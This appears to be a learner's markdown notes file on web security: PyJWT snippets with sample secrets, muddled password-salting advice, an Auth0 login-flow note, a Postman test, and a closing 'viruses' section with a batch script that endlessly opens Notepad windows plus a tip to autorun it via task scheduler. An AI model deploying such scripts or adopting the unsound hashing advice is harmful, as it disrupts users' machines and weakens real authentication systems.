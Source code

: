 # security

# encode jwt

https://pyjwt.readthedocs.io/en/stable/


2- provide an encoded secret

``` 
d_string = 'secret'
data_bytes = d_string.encode("utf-8")
encoded_secret = base64.b64encode(data_bytes)  [c2VjcmV0]
code = jwt.encode({'sub':'AccountNUmber.QTVR','nbf':'1501594247','exp':'1501860089', 'iss': 'client_id', 'aud': 'https://login.google.com/oauth'},
                  base64.b64decode('c2VjcmV0'), algorithm='HS256')

```

```
# encode_jwt payload
encoded_jwt = jwt.encode({"school": "udacity"}, "learning", algorithm="HS256")
print(encoded_jwt)
```

```
encoded_jwt = jwt.encode({"school": "udacity"}, "learning", algorithm="HS256")
print(encoded_jwt)
decoded_jwt = jwt.decode(encoded_jwt, "learning", verify=True)
print(decoded_jwt)
decoded_base64 = base64.b64decode(str(encoded_jwt).split(".")[1]+"==")
print(decoded_base64)
```

# layer of secuirty in hash
1. hash password + dynamic salat
2. store salat in diffrent table make the forgien key userid + number (best select number from hashed password to add it) make it the first number in hashed as index)
3. store the salat in diffrent database , and best is to store the forgein key in another table even the developer may not get the correct pass :D
4. only problem if it read the server file itself 
5. as i said to protect submiting the hash valdaite first if submited password == hashed password before hash(post.password) == stored password
6. this make it check if password submited was hashed which should not known by user
7. hash with key  + the salt + encrypted forigen for salat + 3 database tables  in 3 diffrent servers are most secured way


# get user info

https://auth0.com/docs/flows/add-login-auth-code-flow

1.  get the code not token
2.  send request to get the token with that code it will include the data


# test postMan

```javascript
pm.test("Status code is 401", function() {
     pm.response.to.have.status(401);
});

```

# some viruses
https://techgrinch.com/create-a-virus/

image act as bat file  to excute the code 

https://stackoverflow.com/questions/8767708/execute-a-bat-file-when-an-image-is-viewed


# my First Virus simple I created (.bat)

this can be good if used with it command to auto run when pc start else it noob virus (task scheduler)

```
# hide show only output
@echo off

# back here to repeat
:top

# create new file name my_message_to_you
type NUL >"%TEMP%\My_Message_To_You.txt"

# write the message in the note pad created
echo From Python King I love you >> "%TEMP%\my_message_to_you.txt"

# open the notepad created with the message
%SystemRoot%\notepad.exe "%TEMP%\my_message_to_you.txt"

# back to top and repeat forever until pc restart 
GOTO top

```
